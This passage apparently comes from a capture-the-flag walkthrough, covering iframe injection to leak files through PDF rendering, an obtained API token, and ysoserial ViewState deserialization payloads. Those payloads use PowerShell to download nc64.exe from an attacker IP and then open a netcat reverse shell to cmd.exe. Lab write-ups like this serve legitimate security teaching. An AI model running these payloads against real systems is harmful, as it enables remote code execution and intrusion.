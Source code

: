 Therefore, let’s create a file that contains some iframe code

![](https://threatninja.net/wp-content/uploads/2022/10/Screenshot-2022-06-11-at-18.30.53-1024x147.png)

We should be running the python server by running the command “python3 -m http.server”

![](https://threatninja.net/wp-content/uploads/2022/10/Screenshot-2022-06-11-at-18.31.24-1024x533.png)

We can retrieve the file on browser which we can put it on Description column

![](https://threatninja.net/wp-content/uploads/2022/10/Screenshot-2022-06-11-at-18.36.43-1024x432.png)

Oh wow! it works like a charm

![](https://threatninja.net/wp-content/uploads/2022/10/Screenshot-2022-06-11-at-18.38.23-1024x181.png)

On the python server terminal, it shows that the file has been sent to the request.

![](https://threatninja.net/wp-content/uploads/2022/10/Screenshot-2022-06-11-at-18.38.30-1024x502.png)

Let’s download it again

![](https://threatninja.net/wp-content/uploads/2022/10/Screenshot-2022-06-11-at-18.38.41-1024x502.png)

We have obtained some information on AdminAPI swagger so we can modify the file darknite.html again so that we can retrieve it back on pdf

![](https://threatninja.net/wp-content/uploads/2022/10/Screenshot-2022-06-11-at-18.40.22-1024x550.png)

We got some information on the API parameter

![](https://threatninja.net/wp-content/uploads/2022/10/Screenshot-2022-06-11-at-18.48.59-1024x489.png)

As a result, we got a token for it.

![](https://threatninja.net/wp-content/uploads/2022/10/Screenshot-2022-06-11-at-19.23.19-1024x538.png)

In this step, we are required to run ysoserial command to proceed with the further escalation process.

```shell
 -p ViewState -g TextFormattingRunProperties -c "powershell -c Invoke-webrequest -URI 10.10.14.18/nc64.exe -OutFile C:\\Windows\\System32\\spool\\drivers\\color\\nc64.exe" --generator=0414C274 --validationalg="SHA1" --viewstateuserkey="SAltysAltYV1ewSTaT3" --validationkey="99F1108B685094A8A31CDAA9CBA402028D80C08B40EBBC2C8E4BD4B0D31A347B0D650984650B24828DD120E236B099BFDD491910BF11F6FA915BF94AD93B52BF"

-p ViewState -g TextFormattingRunProperties -c "C:\Windows\System32\spool\drivers\color\nc64.exe -e cmd.exe 10.10.14.18 443" --generator=0414C274 --validationalg="SHA1" --viewstateuserkey="SAltysAltYV1ewSTaT3" --validationkey="99F1108B685094A8A31CDAA9CBA402028D80C08B40EBBC2C8E4BD4B0D31A347B0D650984650B24828DD120E236B099BFDD491910BF11F6FA915BF94AD93B52BF"
```

The command above will ensure you guys retrieve a reverse shell on the netcat terminal

